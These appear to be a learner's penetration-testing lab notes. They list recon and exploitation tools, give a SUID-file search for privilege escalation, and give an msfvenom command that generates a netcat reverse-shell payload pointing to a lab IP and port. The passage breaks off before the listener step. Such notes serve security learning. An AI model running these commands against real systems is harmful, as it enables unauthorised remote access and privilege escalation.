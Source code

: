 `find / -perm -4000 -type f 2>/dev/null`: To locate files with SUID permissions, which may allow privilege escalation.

## General Tools

- **Nmap**:
    - Scans the target to determine:
        - Open ports.
        - Operating system and its version.
        - Running services and their versions.
- **dirb/dirbuster**:
    - Enumerate commonly-named directories on a website.
- **enum4linux**:
    - Focuses on vulnerabilities specific to Linux systems.
- **metasploit**:
    - Primarily for exploitation but includes enumeration capabilities.
- **Burp Suite**:
    - Scans websites for subdirectories and intercepts network traffic.


### Common Exploitation Tools

- **Metasploit**: A versatile exploitation framework with built-in scripts for a variety of vulnerabilities.
- **Burp Suite**: Can exploit web application vulnerabilities like SQL Injection and Cross-Site Scripting.
- **SQLMap**: Automates SQL Injection attacks.
- **msfvenom**: Used to create custom payloads.
- **BeEF**: Specialized in browser-based exploitation.

## using msfvenom 

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format


this did not work , how i fixed it :

ip a 

gets the ip the put it directly in lhost

└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.21.117.138 lport=4444 R

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:
